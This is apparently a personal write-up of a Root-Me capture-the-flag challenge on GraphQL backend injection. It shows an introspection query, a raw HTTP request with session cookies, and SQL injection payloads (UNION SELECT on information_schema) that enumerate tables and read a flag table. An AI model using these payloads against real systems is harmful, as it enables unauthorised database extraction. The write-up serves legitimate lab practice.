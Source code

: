 # GraphQL - Backend injection

`api vuln`: 
- url: http://challenge01.root-me.org:59079/rocketql
- method: POST
- payload:
```json
{"query":"{__schema{types{name,fields{name}}}}"}
```
=> graphql injection

## step 1: use graphql introspection to get all types and fields

`{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}`

## step2: display chart
https://graphql-kit.com/graphql-voyager/

![alt text](chart.png)

payload: 
```
POST /rocketql HTTP/1.1
Host: challenge01.root-me.org:59079
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org:59079/
Content-Type: application/json
Content-Length: 129
Origin: http://challenge01.root-me.org:59079
Connection: keep-alive
Cookie: session=.eJwlzjsOwjAMANC7ZGZIYseOe5nKv6isLZ0QdweJd4L3Lvs68zrK9jrvfJT9GWUr2KiLi9UJmXWIDSXEpcYIMzwRrUrHGDVkeS7g5DlgVHAVDDKj6EpLPaFV4BEz0XoTZ5pJjRehUm-9JoSbqDduQCJMrktn-UXuK8__ZpTPF7kvL04.ZoZwiQ.X-4TOP6p7y76Dzt0oC3xNIRk0bw; PHPSESSID=6200fd7eaac370c518010e3d72be55e2
X-PwnFox-Color: red
Priority: u=0

{"query":"{ rocket(id: \"0 UNION SELECT 2,table_name,2,2 FROM information_schema.tables  -- -\") { name, country, is_active } }"}
```

payload found schema: 
```json
"query":"{ rocket(id: \"0 UNION SELECT 2,schema_name,2,2 FROM INFORMATION_SCHEMA.schemata limit 1 offset 2-- -\") { name, country, is_active } }"
```

payload get flag:

```json
"query":"{ rocket(id: \"0 UNION SELECT 2,value,2,2 FROM secret_db.flag limit 1 offset 0-- -\") { name, country, is_active } }"
```

i wrote sol.py to enum table (uncomment to use) and column (comment to use).